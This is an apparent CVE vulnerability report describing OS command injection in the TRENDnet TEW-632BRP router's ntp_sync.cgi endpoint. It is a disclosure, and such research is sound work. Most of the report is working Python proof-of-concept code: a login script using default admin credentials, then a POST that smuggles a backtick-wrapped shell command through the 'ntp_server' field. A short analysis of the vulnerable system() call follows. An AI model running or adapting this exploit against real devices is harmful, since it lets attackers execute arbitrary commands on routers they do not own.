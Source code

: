 

# CVE Report - Command Injection Vulnerability in TEW_632BRPA1_FW1.10B31  Routers 

## Vulnerability Title

Command Injection Vulnerability in TEW_632BRPA1_FW1.10B31 Routers 

## Vulnerability Description

TRENDnet TEW-632BRP v1.010B31 devices have an OS command injection vulnerability
in the CGl interface "ntp_sync.cgi",which allows remote attackers to execute arbitrary
commands via parameter "ntp_server" passed to the "ntp_sync.cgi" binary
through a POST request.

## Reproduction Steps

1. Log in to the router.

```python
import requests

device_web_ip = '172.17.0.23'

headers = {

  'Host': device_web_ip,

  'Connection': 'keep-alive',

  'Content-Length': '1000',

  'Cache-Control': 'max-age=0',

  'Upgrade-Insecure-Requests': '1',

  'Origin': f'http://{device_web_ip}',

  'Content-Type': 'application/x-www-form-urlencoded',

  'Referer': f'http://{device_web_ip}',

  'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0',

  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',

  'Accept-Encoding': 'gzip, deflate',

  'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6'

}

login_params = login_params = {

  'html_response_page': 'logout_fail.asp',

  'login_name': 'YWRtaW4A',

  'login_n': 'admin',

  'login_pass': 'YWRtaW4A',

  'login': 'Log In'

}

login_url = 'http://{}/login.cgi'.format(device_web_ip)

r = requests.post(url=login_url, data=login_params, headers=headers, timeout=0.2)

if r is None or r.status_code != 200:

 print('Login wrong, please retry!')

 exit()

print(r.text)
```



2. Use the following Python code to test the vulnerability:

```py
import requests
import pickle 
import time

device_web_ip = "172.17.0.23"
base_url = "http://172.17.0.23/"


headers = {
    'Host': device_web_ip,
    'Connection': 'keep-alive',
    'Content-Length': '1000',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': f'http://{device_web_ip}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Referer': f'http://{device_web_ip}',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6'
}

target_para = {'ntp_server':'`ping -c 2 172.17.0.1`'}
r = requests.post(url=base_url+'ntp_sync.cgi', data=target_para, headers=headers)
print(r.text)
```



## Cause Analysis

The get_cgi function accepts external data. The user affects v4 by setting the ntp_server value. After sprintf splicing, it enters v7 and finally enters system execution, resulting in a command execution vulnerability.

![image-20241227230021549](C:\Users\XiaoA\AppData\Roaming\Typora\typora-user-images\image-20241227230021549.png)


